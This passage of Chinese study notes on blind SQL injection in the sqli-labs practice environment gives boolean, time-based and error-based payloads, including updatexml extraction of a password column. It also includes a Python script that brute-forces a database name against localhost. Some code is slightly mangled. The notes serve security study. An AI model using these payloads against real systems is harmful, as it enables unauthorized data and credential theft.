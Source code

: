 2. 接下来用left()来猜解数据库名

   ```sql
   ?id=1' and left(database(),1)='s' -- 
   ```

`s`换成其他字符时,不显示

3. 爆破脚本

```python
import requestsstring = 'abcdefghijklmnopqrstuvwxyz'
success_str = "You are in"
name = ''for i in range(1,9):
    for j in string:
        url="http://localhost/sqli-labs-master/Less-8/?id=1' andleft(database(),"+str(i)+")='"+name+j+"' --+"
        result = requests.get(url=url)
        if success_str in result.text:
            name = name + j
            break
    print(name)
```

4. 最后猜解表数、各个表的长度名字、表里面的数据



#####时间盲注

```sql
?id=1' and if((length(database())>5),sleep(5),0)--+
```

注入成功会暂停五秒,反显



##### 报错盲注

+ 报错

> ?id=1' union select 1,count(*),concat(查询语句,floor(rand(0)*2))a from information_schema.columns group by a--+



+ 利用xpath函数
  
  + extractvalue报错
  
  >?id=1' and extractvalue(1,concat(0x7e,(select database()),0x73));
  
  + updatexml报错
  
  updatexml在执行时，第二个参数应该为合法的 XPATH路径，否则会在引发报错的同时将传入的参数进行输出。利用 这个特征，针对存在报错显示的例子，将我们想得到的信息传入updatexml函数的第二 个参数，在 浏 览 器 中 尝 试 访 问 链 接

  ![image-20210118160918286](/home/carrym/Pictures/Typora/image-20210118160918286.png)
  
  > ?id=1'or updatexml（ 1， concat（0x7 e，（select pwd from wp_ user）），1）%23
  
  